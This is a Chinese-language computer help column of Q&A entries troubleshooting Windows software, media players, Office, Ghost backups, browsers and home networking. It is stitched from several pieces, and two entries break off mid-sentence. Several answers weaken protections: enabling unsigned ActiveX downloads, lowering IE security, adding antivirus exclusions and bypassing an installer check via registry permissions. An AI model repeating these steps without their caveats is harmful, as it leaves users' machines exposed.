已经在KMPlayer中设置不记忆播放位置，但是每次打开KMPlayer后，只要打开电影，它总会打开上次打开视频的文件夹，请问如何取消文件夹位置记忆？

### 解答：
请以管理员身份打开KMPlayer播放器，然后打开设置窗口，选择“常规→常规”，取消选择“记忆视频文件的播放位置”，保存设置即可。
如果是因为非管理员账号打开而导致设置无法保存，这样处理后即可正常。此外，假如设置是保存在KMPCfg.ini文件中，可以先将该文件删除，然后重新设置再保存。

## Excel 保存出错

### 问题：
在单位的电脑中保存一个Excel文档时，经常会出现保存出错的情况，提示文件被共享、不能保存，Excel已经暂存为某某文件，请问这是什么缘故？

### 解答：
这可能是由于你将这个Excel文档设置成共享文件，而当前正被其他人打开，系统为了确保文件的完整性，便暂时为该文件保存一个临时文件，等待其他人关闭该文件后，再保存即可。出现这种情况后，还可以通过“文件→另存为”将其重新保存为一个文件版本，确保修改的数据不会丢失。

## 无法玩“愤怒的小鸟”

### 问题：
同一台电脑，安装的是Windows 7与Windows XP双系统，在Windows 7系统下可以正常玩，而在Windows XP下却总是提示错误，说缺失什么DLL文件，请问这该如何解决？

### 解答：
这可能是由于Windows XP下缺少VC运行库，这款小游戏需要VC运行库的支持才行。从http://tinyurl.com/3lx484下载安装VC运行库到Windows XP系统中即可解决问题。

## Word、Excel 均无法打印

### 问题：
不知道什么原因，在Word、Excel中发起打印命令后，总是打开“另存为”对话框试图保存成TIF格式的图片，无法打印，请问这是什么原因？

### 解答：
这可能是你的系统默认打印机没有设置正确，例如将默认打印机设置成一些截图软件的虚拟打印机，就会出现上述现象。只要在Office办公软件中设置打印时的打印机为系统打印机即可解决问题。

## Windows 7 下软件不能安装

### 问题：
Windows 7系统，不知什么原因导致Office、杀软、QQ等软件均不能安装，只能使用绿色版。安装时就会提示Windows Installer服务停止的信息，请问这该如何解决？

### 解答：
这一般是由于Windows Installer服务未启动，或是相应的文件损坏而导致该服务无法启动所致。正确的解决思路是：先按Win+R组合键打开运行对话框，输入执行命令“services.msc”（不含外侧引号）打开服务管理器，找到“Windows Installer服务”并手工将其开启即可。如果上面的方法不能开启该服务，那就可能是该服务对应的文件损坏，可到微软网站搜索下载安装对应的Microsoft Windows Installer，之后再通过上面的方法检查并确保该服务正常运行即可。

> > 傻博士有话说：
> 一些大型软件，特别是微软的软件，像Office、Live Messenger等，安装时都需要Windows Installer服务的支持，否则无法正确安装。Windows Installer服务是微软的一项软件安装技术，在程序安装失败后会自动将计算机还原为原始状态。但很多软件并未使用这项技术，在安装时就无须它的支持。此外，有些朋友可能在安装程序时还遇到Windows Installer配置方面的错误，还可以通过Windows Installer Clean up Utility来清除程序安装信息，往往可以解决问题。

## 过滤双语片中的粤语

### 问题：
我下载一部电影，使用KMPlayer播放时，总是同时播放出普通话与粤语，已经在KMPlayer中设置了左、右声道，但仍不能将粤语过滤掉，请问如何才能实现只播放普通话？

### 解答：
KMPlayer的左、右声道设置并非将某个声道关闭，而是将这两个声道对调，你可以通过系统中的音量控制面板，直接通过系统音量控制来调整左、右声道的方法来解决，将对应于粤语声道的音量关闭即可只播放普通话了。

## 瑞星总提示“高危”

### 问题：
我安装的是瑞星2011版杀毒软件，最近总是提示我的系统为“高危”安全状态，对系统进行了全面查杀也未出现病毒，请问这是什么原因？

### 解答：
如果升级病毒库为最新版后依然查不到病毒，可单击“开始”菜单，选择“程序→瑞星全功能安全软件”，在打开的窗口右边单击“请修复”按钮，在打开的安全检查窗口中，对红色的危险项目进行“修复”，或是直接“关闭”、“禁用”来解决“高危”的提示。

## Foobar 启动非常慢

### 问题：
Windows 7系统，使用的是Avast杀毒软件，安装的是Foobar1.1.2汉化版，每次启动Foobar时都非常慢，甚至需要近1分钟时间，请问如何让Foobar启动快点？

### 解答：
这可能是Avast在Foobar启动时对其扫描所致，只要将Foobar的程序文件添加到Avast的排除列表中即可：在Avast设置中的“文件系统防护→专家设置”中，将Foobar路径添加进去并“确定”，在“行为防护→可信进程”中直接将Foobar路径添加到排除列表并“确定”，最后在“排除”中直接将Foobar路径加入即可。

## 删除快盘留下的光驱盘符

之前安装了金山快盘，之后将其卸载掉，但是在计算机中留下了一个多余的光驱盘符，在注册表中将“kingsoft”、“klive”相关项全部删除了，但仍不能将这个多余的光驱盘符删除掉，请问这该如何解决?

金山快盘安装后在计算机中生成的图标并非光驱盘符，请先检查是否因为安装了其他的虚拟光驱软件，只有虚拟光驱软件才会生成光驱盘符。其次，金山快盘如果没有卸载干净，可以考虑重新下载安装一次金山快盘，然后再通过自带的卸载程序进行卸载，或者使用第三方卸载工具进行卸载（例如360安全卫士中的软件管家进行卸载）。

## 光影魔术手不能正常使用

之前使用正常，自从改用Windows 7系统后，光影魔术手就有很多功能无法使用，例如趣味涂鸦就无法正常使用，而在Windows XP中使用正常，请问这该如何解决?

首先，尝试使用管理员权限打开光影魔术手，看问题是否能解决。其次，尝试使用Windows XP模式打开程序：右击光影魔术手程序并选择“属性”，在“兼容性”选项卡中勾选“以兼容模式运行这个程序”选项，再选择Windows XP模式即可。

## Nero刻录的音乐光盘不能自动播放

我在电脑中使用Nero刻录了一张音乐光盘，在电脑上可以正常播放，但是拿到播放机上却无法播放，请问这是什么原因?

播放机上能播放的音乐光盘其实就是音乐CD，你只有在Nero中以音乐CD模式创建这个音乐光盘才行，而若制作成MP3光盘，肯定是无法在播放机上播放的。在Nero中制作光盘向导中应该选择“音乐→音乐光盘”项，然后再按照向导提示进行制作即可。

傻博士有话说：
音乐光盘与普通光盘中存放音乐文件是两码事。例如，直接将一些音乐文件拷贝到光盘中，这时的音乐文件与其他普通文件无异，在光盘中作为数据存储，而音乐光盘中的音乐以音轨的方式存储，可以在任何影碟机、电脑中直接播放。存放了音乐文件的光盘则只能在电脑、支持MP3格式的汽车CD以及随身听等设备中播放。

## Ghost还原系统出错

我使用Ghost还原之前备份的系统，进行到34%时出现错误提示： ghost has detected corruption in the image file. please perform an integrity check on the image. 请问这该如何解决?

根据提示信息显示，之前备份的Ghost映像文件出错了，比如因硬盘坏道而导致文件损坏，或者病毒感染等，可以先尝试使用Ghost自带的映像检测工具检测，如果损坏了，可能就无法还原，这种情况下，也只能使用安装光盘进行安装了。

## 无法启动游戏

我下载的一款游戏，需要安装XNA4.0才可以玩，但我在安装XNA4.0时出现了问题，提示： Microsoft XNA Framework Redistributable 4.0 requires at least Microsoft .NET Framework 4 Client Profile. 总是无法安装，请问这该如何解决?

提示很明显，系统中缺少微软的.Net Framework平台而无法安装，可以从微软官方下载中心 (http://www.microsoft.com/downloads/zh-cn) 搜索下载适当版本的Net Framework，安装后再安装XNA就可以了。（NET Framework 4独立安装程序下载地址： http://tinyurl.com/3evgrs4）

## WinPE下安装64位Windows 7出现问题

我在WinPE中安装Windows 7，在“运行”框中输入“c:/boot/bootsect.exe /nt60 c:”时提示不是有效的Win32位应用程序，请问这该如何解决?

在32位环境下安装64位系统，需要使用64位“bootsect.exe”程序来实现，请将压缩包中的该文件解压放到上述命令中的位置，再用上述命令启动安装即可。不过，前提是你已经完成了系统文件的拷贝等准备工作：把“bootmgr”文件及“boot”文件夹都复制到C盘根目录下，并在C盘根目录下建个“sources”文件夹，再把“win7/sources”下的“boot.wim”复制到C盘下的“sources”中，等等。

## 声音如何直接从声卡录制

工作所需，需要在安装Windows 7的笔记本中录制一段在线视频，视频录制是成功的，但是声音却成了从麦克风录制的外部声音，我需要录制的是声卡中直接播放的声音，请问如何才能解决?

这需要在系统中设置默认的录音设备。要想录制声卡发出的声音，需要将录音设备设置成声卡：右击托盘区的音量图标并选择“录音设备”，在“录制”选项卡中直接选择“线路输入”项并将其设置成默认设备即可。

## KMPlayer播放画面下方显示缺口

我使用KMPlayer播放器看电影，但最近重新安装一次系统及播放器后，最大化或是全屏窗口时，播放画面下方有一个横条区域不能显示，请问这是什么原因?

出现这样的问题，首先检查播放器的解码器设置，不妨将KMPlayer的参数恢复至默认值。其次，检查系统的硬件加速是否开启，如果未开启硬件加速也有可能会出现这样的情况。最后，检查显卡驱动程序是否正常，如果显卡驱动有问题，也会导致类似问题的出现，卸载显卡驱动并重新安装一次。确保上述三个方面都正常后，应该能解决问题。

## Ghost无法备份固态硬盘系统

最近给笔记本换了固态硬盘，安装好系统后想用Ghost做个备份，但是总是提示错误，无法成功备份，请问如何才能备份固态硬盘系统?

以前版本的Ghost无法对固态硬盘进行备份，可以从http://dl.dbank.com/c095ok052下载一个程序包，然后按下面的方法使用：
- 根据系统选择对应的Ghost文件，64位系统选Ghost64，32位系统选Ghost32，放到要备份硬盘的目录下。
- 启动系统时按F8键进入第一项“系统修复菜单”，单击“下一步”后确认用户名和密码；进入具体的选项菜单，鼠标点击最下面那个命令行模式。
- 直接输入存放Ghost的分区，比如在D盘，就输入D： 回车，运行Ghost，接下来你需要备份还是恢复就可以选择并执行了。

傻博士有话说：
固态硬盘一般是通过主板的ZIF接口（IDE）相连的，而一般固态硬盘又被分为ZIF接口和uSATA接口两种，ZIF接口的固态硬盘是用ZIF排线直接与主板联接，而uSATA接口的固态硬盘是通过转换芯片与主板连接的，DOS系统无法直接识别该芯片，进而无法识别SSD，因此也就无法使用Ghost进行备份了。只有特殊版本的Ghost，在Windows命令行下启动后才能对固态硬盘进行Ghost备份。

## 如何删除JPG-Crack.exe

不知为何，在每个RAR压缩包中都有这个JPG-Crack.exe文件，无法删除。杀毒软件检查系统时并未报毒，请问这该如何删除?

先搜索硬盘中的“Winsys.exe”文件，并且将注册表中与“Winsys.exe”相关项清理干净，接下来使用下面的批处理来删除JPG-Crack.exe即可：

```
attrib -R /S
for /R %%f in (*.rar) do "C:\Program Files\WinRAR\rar.exe" d "%%f" JPG-Crack.exe
pause
```

注意：如果WinRAR程序安装的路径不在批处理代码中相应的地址中，需要手工修改成WinRAR程序的真实路径。

## 打开Word就出错

安装的是Office 2007，最近不知什么原因，只要打开Word就出错，在弹出的窗口中提示： Microsoft Office Word遇到问题需要关闭。我们对此引起的不便表示抱歉。请问这该如何解决?

出现这个问题后，只要将Word的模板文件删除即可（默认位置C：\Documents and Settings\用户名\Application Data\Microsoft\Templates\Normal.dot），删除后Word在下次启动时会自动创建该文件。

## 双击无法关闭TC标签

我平时使用Total Commander （TC） 替代系统资源管理器，但最近不知道什么原因导致无法双击关闭TC的标签了，请问这该如何解决?

这可能是改动了TC的设置导致的，单击菜单“配置→选项”，在“文件夹标签”设置中选中“双击关闭标签”项，保存设置后应该能解决问题。

## 64位Windows 7无法玩CS

我的电脑配置很高，内存是8GB的，但是在安装64位Windows 7系统后，准备玩CS时，系统提示： Your system reported only -90896.00K of physical memory. Counter-Strike requires at least 16MB。请问这该如何解决?

只要你使用兼容模式启动CS即可解决问题：右击CS程序并选择“属性”，在打开的窗口中选择“兼容性”选项卡，勾选“以兼容模式运行这个程序”，然后在下面的列表中选择“Windows XP”项，再启动就不会提示上述信息了。

## Ghost安装器出现“Invalid switch”错误

我在使用Ghost安装器备份Windows 7系统时，重新启动后进入Ghost界面时出现Invalid switch的错误提示，无法备份，请问这该如何解决?

这是由于你将备份文件存放路径或是文件名设置过长，或是添加了特殊字符所致（例如中文文件名或路径），只要重新设置存放路径并确保文件名及路径完全是英文字符即可。

## TC无法保存列宽

在TC （Total Commander） 中设置了列宽，但是重新启动后列宽又变成原先的样式，而我已经在参数中设置保存了，请问如何才能让设置保存起来?

如果在设置后单击菜单“配置→保存选项设置”，以及“配置→保存窗口位置”两个选项仍不奏效的话，则可能是由于你没有用管理员权限运行TC所致，重新右击TC程序并选择“以管理员身份运行”，然后再进行列宽设置，最后保存即可。

傻博士有话说：
不少软件均遇到过设置参数不能保存的情况，通常都是在Windows 7环境下，例如QQ登录密码总是无法保存、游戏软件的登录账号不能保存等。这一股都是由于运行软件时没有使用管理员权限运行所致。出现这种情况后，只要重新以管理员权限运行一次该程序，进行需要的参数设置就可以保存，以后再次使用时就免得再重新设置了。

## Word表格转成Excel表格总是出错

我试图将Word中的表格转换成Excel表格时，只要Word表格单元格中存在段落符号，在Excel中就会变成几个单元格（不是一个单元格中的换行）。请问这个问题如何解决?

如果是整个表格从Word粘贴到Excel中的话，先将Word表格中的段落标记删除掉。在Word...

## Everything 搜不到文件

Q： 一直使用Everything搜索硬盘文件，但近来发现硬盘上的一个文件却搜不到，尝试多次仍不行。请问这是什么原因？

A： 首先，Everything是利用NTFS格式磁盘中特有的USN日志进行文件搜索的，如果那个文件保存在FAT格式磁盘上，Everything是无法搜索到的。其次，如果硬盘中的文件没有被索引到USN日志（例如在系统安装之前就已经存在于硬盘上，后来没有执行过任何操作的文件），也不会被Everything搜索到。如果平时的工作需要频繁地在硬盘中搜索文件，建议安装百度硬盘类自带索引数据库的工具，可以避免漏搜索的情况。

## 老电脑无法安装 VMware

Q： 我有一台老电脑，在试图安装VMware Workstation 8.0时，系统总是提示硬件不支持。请问这是什么原因？

A： 新版VMware对硬件有更高的要求，特别是CPU，如果是Intel系列CPU，必须支持VT-x，而若是AMD系列CPU，则需要支持segment-limit，同时，还需要支持LAHF/SAHF，否则是无法安装新版VMware。自己的CPU具体支持不支持这些技术，可以通过CPU-Z软件（下载地址：http://www.downg.com/soft/18845.html）进行测试。

## TC 中删除文件却切换到其他程序

Q： 最近不知什么原因，在TC（Total Commander）中通过F8键删除文件时，总是切换到Firefox浏览器窗口，请问这是什么原因？

A： 这可能是系统全局热键绑定导致的，例如将Firefox的快捷图标的热键设置成F8键后，你在TC中按F8键时就会打开Firefox了。按照这个思路去寻找被打开的窗口程序对应的热键，修改成其他快捷键即可解决这个问题。

## Excel 总是提示 gmodm132.dll 加载不了

Q： 单位电脑安装的是Windows 7系统，安装了Office 2010和Novell网络管理套件，启动Excel时系统总是提示：GetIntegrationState fails with exception code；Unable to load DLL‘gmodm132.dll； 请问这是什么原因？

A： 根据错误提示，可能是由于Office 2010与Novell由系统中不同权限的账户安装的，Excel在试图调用Novell组件时出现权限问题。试着把gmodm132.dll复制到系统盘下的Windows/system32目录下，再用管理员权限打开命令提示符窗口，运行“regsvr32 gmodm132.dll”命令注册一下该组件即可。

## 无法卸载、安装卡巴斯基安全部队

Q： 之前安装的是卡巴斯基安全部队，由于出现错误，现在想重新安装却被提示无法安装，卸载也出错。请问这该如何解决？

A： 这可能是部分文件损坏而导致的无法卸载。对于卡巴斯基系列安全软件，可以通过从http://devbuilds.kaspersky-labs.com/devbuilds/Kavremvr1.0.179/Kavremvr.exe下载专用的卸载工具进行卸载，然后再重新安装即可。

## TC 中无法显示带点号文件

Q： 我平时使用Total Commander（简称TC）管理文件，最近发现有很多文件无法显示，而在系统的资源管理器中却可以正常显示，这些文件名称都有相同点，那就是文件名前前有一个点号。请问这是什么原因？

A： 这是由于在Total Commander中设置忽略显示“*.*”所导致的。只要打开Total Commander的设置窗口，在“忽略列表”中，取消选择右侧“忽略（不显示）下列文件和文件夹”选项，保存设置即可解决以上问题。

## 视频播放不正常

Q： 之前保存在硬盘中的RM电影，使用射手播放器播放时，只能听到声音却看不到图像。请问这该如何解决？

A： 这类问题一般都在于解码器，例如解码器不全、不包含RM视频解码器，就会出现无法播放RM格式视频的问题。现在有不少完整版解码器包，直接安装上即可解决问题。例如因为播放器自带解码器不完整而导致的无法播放问题，推荐你安装“完美解码”（下载地址：http://www.onlinedown.net/soft/52770.htm）。此外，现在的QQ影音播放器可以自动搜索下载匹配的解码器，使用起来更方便。

## 无法播放 nrg 音频

Q： 最近下载了几首DTS音乐（*.nrg格式），总是无法使用Foobar播放，提示无法识别格式。请问如何才能播放这种音乐文件？

A： 先检查你的Foobar版本有没有自带“CD Audio Decoder （foo_cdda.dll）”插件，如果找不到该插件，请从网上找到该插件并进行安装。之后再使用虚拟光驱软件将nrg文件添加到虚拟光驱，最后直接使用Foobar打开虚拟光驱即可播放了。

## 小红伞无法装到 Windows 2003

Q： 最近想安装小红伞免费版杀毒软件，系统是Windows 2003服务器版，但总是提示错误，无法安装。请问这该如何解决？

A： 可试试以下方法。按Win+R键调出运行对话框，输入执行regedit命令打开注册表编辑器，定位到【HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions】，右击修改“ProductOptions”项的权限，将当前登录用户的权限设置为拒绝“完全控制”。接下来安装小红伞，忽略安装过程中的错误提示，然后重新将上面修改的注册表权限恢复默认值。最后再解压小红伞的安装文件，将解压得到的“basic\xp”目录中的4个.sys文件复制到“Windows\system32\drivers\”目录，再打开小红伞的安装目录，将其下的“avgnntfilt.inf”及“avipb.inf”两个文件并选择安装即可。

## QQ2011 响应慢

Q： 安装了QQ2011正式版，系统是64位的Windows 7，在使用过程中QQ经常出现没响应的情况，弹出一个对话框，发送一个消息都要等几分钟。请问这是什么原因？

A： QQ2011有好几个版本，如果使用的是测试版，请直接更新安装最新的正式版，测试版有不少朋友遇到类似症状。此外，检查系统防火墙是否对QQ有拦截，直接在防火墙软件中将QQ添加到白名单中应该能解决问题。

## Movie Maker 不能正常保存影片

Q： 我在使用Movie Maker编辑视频后，总是无法保存，提示：Windows Movie Maker无法将电影保存到指定的位置……请问这是什么原因？

A： 先检查保存位置，检测是不是因为保存位置所在磁盘空间不够而引起的。其次，Movie Maker需要Windows Media Player内核的支持，如果Media Player版本不是最新版，也有可能会导致类似问题，请尝试升级Media Player播放器。

## IE 主页总被改成瑞星首页

Q： 自从安装了瑞星杀毒软件后，IE浏览器首页总被修改成“http://hao.rising.cn”，即使手工修改成其他地址，也总是被改回。请问这该如何解决？

A： 先到http://tinyurl.com/6k7e29c下载Wsyscheck这款小工具，运行后在进程管理中结束“Rstray.exe”进程，接下来打开注册表编辑器并定位到【HKEY_CURRENT_USER\SOFTWARE\MICROSOFT\INTERNET EXPLORER\MAIN】，修改“START PAGE”的值为自己的网址，然后选择“MAIN”的右键菜单内的“权限”，禁止当前系统账户对其修改即可。

傻博士有话说：
许多人都碰到过浏览器首页被莫名其妙修改的情况，而且这些修改首页的程序还会动用一些手法防止用户自行修改首页，或者即便修改后，在重新启动系统时又会自动变回。出现这类情况时，最简单的方法就是借助一些IE修复工具来解决。另外，在一些常用的安全软件内，也会内置IE首页锁定功能，以用来避免首页被修改。

## 115 网盘过期文件无法下载

Q： 在115网盘搜索到一个比较重要的文件，但由于过期无法下载。请问这类过期的文件有没有下载的方法？

A： 出现这种情况，你可以试试http://hi.baidu.com/popok/提供的“115解析工具”，运行后直接打开“免SHA1复制”功能项，将提取码输入进行“强制复制”，这样可以复制到自己的网盘中，最后再进行下载即可。

## 浏览网页总变成下载页面

Q： 我使用的是Chrome浏览器，在浏览一些网页时，点击一个页面链接，Chrome并没有正常打开这个页面，而是自动将该页面下载到本地。请问这是什么原因？

A： 首先考虑是不是你使用的ISP服务商推出的嵌入式广告，可以使用记事本程序打开下载的这个页面文件，如果看到其中有诸如“http://gdct10000.com”类ISP服务商的域名信息，这都是ISP服务商推出的广告页面。出现这类情况后，可以拨打ISP投诉电话，通常可以在短时间内避免类似广告的推送。

## 保存网页却不能保存图片

Q： 我想将论坛中的一个帖子所在的页面保存下来，但是保存后的文件中没有图片，图片所在位置显示红叉叉。请问这是怎么回事？

A： 对于论坛页面要保存，请先确保登录到论坛（有些论坛限制图片、附件等不允许游客下载）。其次，在保存页面时，请选择浏览器中的“文件→另存为”，在打开的保存窗口中将“保存类型”## 无法安装Flash插件

电脑突然无法看Flash，系统提示升级，我将之前的旧版本卸载了，从网上下载，发现连官方下载的安装程序都无法安装，提示非正式版，请问这该如何解决？

尝试通过下面的方法来解决：打开IE浏览器，单击菜单“工具→Internet选项”，在“隐私”选项卡中将安全级别设置成中或低，再进行安装。如果IE浏览器设置的安全级别过高，在安装这类插件程序时就会遭到拒绝而无法安装。

## IE无法正常显示新浪股票页面

将IE从IE6升级到IE8，打开新浪网上的股票页面时总显示红色叉叉，下载最新版Flash、使用兼容性视图均不行，请问这该如何解决？

出现这种情况，有可能是某个插件与Flash冲突而引起的。你可以启动无插件模式的IE来打开，单击“开始→所有程序→附件→系统工具→Internet Explorer（无加载项）”，这样启动IE后再打开新浪财经网站应该可以正常显示了。不过，禁用所有插件，浏览器用起来会很不方便，建议还是通过排除法（一个一个插件禁用）找出有问题的插件，将其关闭或升级，以彻底解决问题。

傻博士有话说：由于升级软件、重新安装软件而导致这款软件之前进行的一些任务丢失是使用电脑过程中经常遇到的问题，例如邮件软件的邮件列表、播放器的播放列表、下载软件的下载列表等。如果这些任务列表比较重要，应该养成列表备份的习惯，在重新安装或是升级前将列表导出来，对于下载软件来说，需要对下载的数据进行校验，完成正确的校验后才可以继续下载。

## 升级迅雷后丢失列表

我将迅雷升级到最新版本之后，发现之前正在下载的任务全丢失了，下载列表空空如也，请问如何找回之前下载中的任务并重新下载？

很简单，只要通过系统的搜索功能找到扩展名为“.td”的文件，这就是之前正在进行的下载任务，直接将其重新加载到迅雷中即可重新进行下载了。

## 页面中的Flash均在页面左上角显示

使用的是IE9浏览器，最近看到系统提示更新Flash播放器插件，在更新后发现所有Flash都显示在页面的左上角了，请问这该如何解决？

这可能是更新Flash播放器插件程序后，显卡驱动程序相关参数没有自动更新而导致的。最直接的解决方法就是重新安装一遍显卡驱动程序即可解决，或者打开IE浏览器的选项窗口，在“高级”选项卡的列表中找到“加速的图形→使用软件呈现而不使用GPU呈现”项并确保选中也可以解决问题。

## 百度页面左侧变成空白

今天打开百度搜索页面时，发现左侧一栏变成了空白栏，而正常的搜索结果却移到了页面中间了，请问这是什么原因？

这一般是由于临时文件夹满了而导致的，只要打开IE浏览器，单击菜单“工具→Internet选项”，在“常规”选项卡中单击“删除”按钮，选中“Internet临时文件”项，然后直接进行清空操作即可。

## Opera字体发虚

使用Opera浏览器发现打开的页面中的文字字体总是发虚，看不清楚，请问这种情况应该如何解决？

这可能是系统没有启用ClearType清晰字体模式，而在液晶显示器下便显示类似发虚现象。解决方法：右击桌面并选择“个性化”，在打开的窗口中点击“调整ClearType文本”，在打开的窗口中将“启用ClearType”项选中，然后再根据向导进行优化设置即可解决问题。

## 页面按钮变形

我使用的是Windows 7系统自带的IE9浏览器，打开网页时发现页面上的按钮图标都变得很小，例如一些页面上的“确定”、“取消”按钮，请问这是什么原因？

这一般是由于系统使用的主题缺陷所致，通常只要更换一下系统主题即可解决问题。此外，在IE浏览器中假如出现一些页面上的文字、颜色等异常，还可以通过IE选项中的“常规”选项卡中的“字体”、“颜色”按钮来进行设置，只要取消页面中的预设字体、颜色即可避免这些问题。

## 频繁提示“脱机工作”

使用的是路由器自动拨号，而在使用一些软件过程中，系统总是频繁地提出“脱机工作”，而网络功能依旧可以正常使用。请问这是什么原因？

这可能是由于系统中仍然存在拨号连接，而在软件连接网络时检测拨号连接没有正常工作，所以提示脱机工作。这种情况下，只要在IE选项的“连接”选项卡中将拨号连接列表中的所有连接删除即可解决问题。

## 为何无法同时上网

最近家里又配置了一台笔记本电脑，之前一台电脑可以正常上网，现在两台电脑总是无法同时上网，只要其中一台拨号上网后，另一台电脑的拨号程序就无法成功拨号了，请问这是什么原因？

这种现象可能是当地的ISP服务商限制了多台电脑同时拨号功能，拨号账号同时只能被一台电脑使用，所以出现这种情况。如果需要2台（或是多台）电脑同时上网，建议使用路由器来解决，在路由器中设置好路由并完成拨号，然后直接让多台电脑借助它连接网络。此外还可以通过双机互联的方式完成共享上网来解决问题。

## 聊天正常网页却无法打开

我使用的是Windows 7系统，经常会出现休眠唤醒后网页无法打开，而QQ、阿里旺旺、飞信等软件可以正常使用网络的问题，有时候重新启动系统、重新启动宽带猫可以解决，但有时不行，请问这该如何解决？

网络软件工作正常而浏览器时而无法打开的话，一般是由于本地网络连接中的DNS参数设置的DNS服务器工作不正常所致。譬如不少朋友手工指定的DNS服务器最近出现了问题就会导致这种情况发生。只要在“开始”菜单的搜索框中输入“网络和共享中心”并打开，右击“本地连接”并选择“属性”，双击“Internet协议版本4（TCP/IPv4）”项，在打开的窗口中将DNS服务器设置为自动获取模式即可。

## 打开支付宝提示证书错误

今天在IE浏览器中打开支付宝网站时，系统提示：此网站的安全证书有问题。无法正常打开支付宝网站，请问这是什么原因？

这个问题一般是由于系统时间设置不正确所致。通常情况下，HTTPS开头的网站都是有数字证书配合才能正常工作的，而这些证书都是有使用有效时间的，如果当前系统时间不正确（不在有效时间内），浏览器就会拒绝打开这个网站并提示证书有错误。只要将系统时间设置正确即可解决问题了。

## 局域网文件拷贝速度异常

家中台式机安装的是Windows 7系统，两台笔记本，一台安装的是Windows 7，另一台是Windows XP，Windows 7与Windows XP之间拷贝文件能达到7~8MB/s，而Windows 7的两台电脑之间拷贝文件速度只有1MB/s，请问这是什么原因？

7~8MB/s是百兆网卡的正常拷贝速度，而1MB/s则是10兆网卡的拷贝速度。出现这种现象，很有可能是在Windows 7系统下的那块网卡设置成10M工作模式：右击“计算机”并选择“管理”，选择“设备管理器”，找到网卡并右击选择“属性”，在“高级”标签中选择“链接速度/双工模式”，直接设置成“100Mbps/全双工”即可。

## 农行网银不能付款

我刚开通农业银行网上银行，准备给支付宝付款时，浏览器总是弹出提示：Windows已经阻止此软件因为无法验证发行者。名称：NetSign.cab，请问这该如何解决？

这是由于IE浏览器参数禁止ActiveX插件的正常加载而导致的问题，单击菜单“工具→Internet选项”，在“安全”选项卡中单击“自定义级别”按钮，在打开的窗口中将以下项启用：“对标记为可安全执行脚本的ActiveX控件执行脚本”、“对未标记为可安全执行脚本的ActiveX控件初始化并执行脚本”、“下载未签名的ActiveX控件”、“下载已签名的ActiveX控件”，最后保存设置重新打开交易页面即可恢复正常了。不过，这一方法会给浏览器的使用带来一定的安全隐患，所以最好咨询农行，正确安装使用专有的安全插件。

## 电脑网络工作不正常

有一台电脑，自己Ping自己有时也不通，但若将网卡禁用，重新开启网卡后又可以恢复正常，但过一阵子又出现不能Ping通的故障，请问这是什么原因？

这种情况一般都是系统被病毒或是木马等恶意程序攻击所致，只要在系统中安装口碑较好的防火墙应该能解决这类的问题，可以拦截像ARP攻击、RST攻击等，避免因为这类攻击导致网络工作不正常。

## 6M网为何速度很慢

我安装的是中国移动的6M宽带网络，但最近网速很慢，连打开百度首页都要等半天。不过下载文件速度倒是比较快，能达到500Kbps以上。请问这是什么原因？

据你所描述的症状，很像是被ARP病毒攻击了，建议你安装“ARP防火墙”（下载地址：http://www.newhua.com/soft/52718.html），看看问题能否解决。如果问题依旧，可考虑一下其他原因，如果是单台电脑上，并且在路由器中限制了带宽，也会出现类似的症状，请打开路由器的设置页面，然后检查网速限制参数是否设置得不当，修正即可。还有一种情况，那就是你的电脑在局域网中，而局域网中没有设置带宽使用限制，当其中一台电脑使用下载工具占完所有带宽后，其他电脑打开网页就会很慢，只要让网管在局域网服务器或是路由器设备中为每台电脑限流带宽即可。

傻博士有话说：网速慢的原因有很多，例如网卡的工作带宽被设置成低速半双工模式，在局域网中拷贝数据速度就会很慢，开启了P2P类下载工具，没有设置下载速度限制，也会导致浏览网页速度变慢的情况。只有限制下载带宽，才能保证诸如浏览网页的速度。此外，假如网络硬件环境工作不正常（例如夏天温度高，设备散热不良，或是网线接触不良）也会导致网速慢的情况，甚至还会导致网络工作不稳定。

## 傻博士信箱

## 《电脑爱好者》合订本

## 路由器不能当交换机使用

- **Q:** 我有一个路由器，现在想将其作为交换机使用，但总是无法成功，请问如何将路由器当作交换机使用？
- **A:** 只要在路由器的设置界面中关闭DHCP服务，然后将所有的网线接在Lan口即可达到路由器当交换机使用的目的了。

## 带登录账号的网页无法登录

- **Q:** 我使用的是IE9浏览器，网页正常浏览一切正常，但是只要打开需要登录账号的网页时，总是无法登录，请问这是什么原因？
- **A:** 登录网页一般都是在网页中内置客户端程序来负责采集登录信息并提交到服务器的。因此，你出现的这种登录页面无法登录的情况，可能是浏览器的设置不当，禁用了页面中的脚本程序而导致的。最简单的方法就是直接将IE9的参数置入默认值。单击菜单“工具→Internet选项”，选择“高级”选项卡，单击“重置”按钮并执行重置操作，这样就可以解决这类因为浏览器本身参数设置不当而导致的各种难题杂症了。

## QQ联系人无法删除

- **Q:** 在QQ中有一个联系人，已经从陌生人中将其删除，并且拉到黑名单了，重新启动QQ后这个联系人又回到联系人列表中，请问如何才能将其从列表中彻底删除？
- **A:** 出现这个问题后，可以登录http://id.qq.com/friends/，登录后在好友列表中查找，如果还在好友列表，直接将其删除，之后登录QQ客户端就不会看到这个联系人了。

## Google总提示设为主页

- **Q:** 我已经将Google设置成主页了，但是最近几天总是出现：经常光顾此页？请将 Google 设为您的主页。即使点击“好的”将其设置成主页，关闭浏览器后再打开Google又会出现同样的提示，请问这是什么原因？
- **A:** 这可能是你在浏览器中设置成关闭浏览器自动清空Cookies的原因导致的。只要重新在浏览器中设置成关闭时不清除Cookies即可解决问题。例如在IE浏览器中单击菜单“工具→Internet选项”，在“常规”选项卡中取消选择“退出时删除浏览历史记录”选项，保存设置即可。

## 无法安装QQ

- **Q:** 我在安装最新版QQ时，系统提示：无法访问Windows安装服务。发生这种情况的可能是您在安全模式下运行Windows，或是没有正确安装Windows。请问这该如何解决？
- **A:** 可以试着按Win+R键调出运行对话框，输入执行“services.msc”命令打开服务窗口，找到“Windows Installer”服务并将其手工开启即可。

## 点击后链接不改变颜色

- **Q:** 使用的是Windows 7自带的IE浏览器，现在不知道什么原因导致的问题，点击页面中的链接后不改变颜色，这样就不方便知晓哪些链接已经被打开过。请问这该如何解决？
- **A:** 这个问题与IE临时文件夹有关系，可以尝试直接清空IE临时文件夹以及IE的访问记录。单击IE菜单“工具→Internet选项”，在“常规”选项卡中直接单击“删除”按钮，选择清除IE临时文件夹及历史记录项并进行清除即可。

傻博士有话说：
很多IE故障都与IE的临时文件夹有关系。例如临时文件夹满后，下载文件时会出错，IE打开网页显示不正常（例如Flash动画不能播放），网页图片无法正常显示，登录页面的登录框异常等。只要清空一次IE临时文件夹，往往就能立即解决问题。

